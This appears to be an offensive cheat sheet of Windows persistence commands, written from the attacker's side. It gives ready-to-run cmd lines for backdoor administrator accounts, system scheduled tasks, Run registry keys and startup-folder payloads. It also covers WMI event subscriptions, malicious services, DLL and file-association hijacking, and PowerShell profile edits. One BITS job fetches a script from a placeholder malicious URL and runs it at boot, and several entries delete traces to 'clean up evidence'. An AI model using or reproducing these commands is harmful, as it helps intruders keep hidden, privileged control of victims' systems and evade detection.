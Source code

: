# User Accounts

#### Create a New Local User
- Create a new local user with a specified password:
	```cmd
	net user <username> <password> /add
	```

#### Add User to Administrators Group
- Add the newly created user to the Administrators group to ensure elevated privileges:
	```cmd
	net localgroup administrators <username> /add
	```

#### Enable a Disabled User Account
- Enable a disabled user account to maintain access:
	```cmd
	net user <username> /active:yes
	```

#### Modify User Password
- Change the password for an existing user:
	```cmd
	net user <username> <new_password>
	```

# Scheduled Tasks

#### Create a Scheduled Task for Persistence
- Schedule a task to run a script or executable at startup:
	```cmd
	schtasks /create /tn "PersistenceTask" /tr "cmd.exe /c <path_to_payload>" /sc onstart /ru system
	```

#### Modify an Existing Scheduled Task
- Modify the task's action to point to a malicious executable:
	```cmd
	schtasks /change /tn "PersistenceTask" /tr "powershell.exe -ExecutionPolicy Bypass -File C:\Backdoor.ps1"
	```

#### Delete a Scheduled Task
- Remove a scheduled task to clean up evidence:
	```cmd
	schtasks /delete /tn "PersistenceTask" /f
	```

# Registry Keys

#### Add Registry Key for Startup Persistence (User)
- Add a value to the user-level `Run` key to execute a payload at login:
	```cmd
	reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v MyBackdoor /t REG_SZ /d "C:\path\to\payload.exe" /f
	```

#### Add Registry Key for Startup Persistence (System)
- For system-wide persistence, add the value to the system's `Run` key:
	```cmd
	reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v MyBackdoor /t REG_SZ /d "C:\path\to\payload.exe" /f
	```

#### Remove a Registry Key
- Remove a specific registry key to clean up persistence:
	```cmd
	reg delete HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v MyBackdoor /f
	```

# Startup Folder

#### Add a Program to the Startup Folder (User)
- Copy a malicious executable to the current user’s startup folder:
	```cmd
	copy <path_to_payload> "%appdata%\Microsoft\Windows\Start Menu\Programs\Startup\malicious.exe"
	```

#### Add a Program to the Startup Folder (All Users)
- Copy a malicious executable to the all-users startup folder:
	```cmd
	copy <path_to_payload> "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\malicious.exe"
	```

# Windows Management Instrumentation (WMI)

#### Create a WMI Event Subscription
- Create a WMI event subscription that runs a script when a specific process is started:
	```cmd
	@echo off
	@set query="SELECT * FROM __InstanceCreationEvent WITHIN 10 WHERE TargetInstance ISA 'Win32_Process' AND TargetInstance.Name='explorer.exe'"
	@set cmd="powershell.exe -ExecutionPolicy Bypass -File C:\path\to\backdoor.ps1"
	@wmic /namespace:\\root\subscription PATH __EventFilter CREATE Name='PersistenceFilter', EventNamespace='root\cimv2', QueryLanguage='WQL', Query=%query%
	@wmic /namespace:\\root\subscription PATH CommandLineEventConsumer CREATE Name='PersistenceConsumer', CommandLineTemplate=%cmd%, ExecutablePath='powershell.exe'
	@wmic /namespace:\\root\subscription PATH __FilterToConsumerBinding CREATE Filter='\\\\.\\root\\subscription:__EventFilter.Name="PersistenceFilter"', Consumer='\\\\.\\root\\subscription:CommandLineEventConsumer.Name="PersistenceConsumer"'
	```

# Service Creation

#### Create a Malicious Service
- Create a service that runs a malicious executable:
	```cmd
	sc create MaliciousService binPath= "C:\path\to\malicious.exe" start= auto
	```

#### Start the Service
- Start the malicious service:
	```cmd
	net start MaliciousService
	```

# DLL Hijacking

#### Identify Vulnerable DLLs in Use
- List DLLs loaded by a process (replace `<pid>` with the process ID):
	```cmd
	tasklist /m
	```

#### Replace a DLL for Hijacking
- Copy a malicious DLL to a vulnerable directory where it will be loaded by an application:
	```cmd
	copy <path_to_malicious.dll> "C:\Program Files\VulnerableApp\legit.dll"
	```

# BITS Jobs (Background Intelligent Transfer Service)

#### Create a Persistent BITS Job
- Create a BITS job that downloads a malicious script and runs it on system startup:
	```cmd
	bitsadmin /create MyBitsJob
	bitsadmin /addfile MyBitsJob http://<malicious_url> C:\Temp\malicious.ps1
	bitsadmin /resume MyBitsJob
	schtasks /create /tn "BitsPersistence" /tr "powershell.exe -ExecutionPolicy Bypass -File C:\Temp\malicious.ps1" /sc onstart /ru system
	```

# File Association Hijacking

#### Change File Association to Run Malicious Code
- Change the association for `.txt` files to run a malicious executable:
	```cmd
	assoc .txt=txtfile
	ftype txtfile="C:\path\to\malicious.exe" %1
	```

# PowerShell Profile

#### Modify PowerShell Profile for Persistence
- Add a command to the user's PowerShell profile to run a payload when PowerShell starts:
	```cmd
	echo Start-Process "C:\path\to\payload.exe" >> %userprofile%\Documents\WindowsPowerShell\profile.ps1
	```
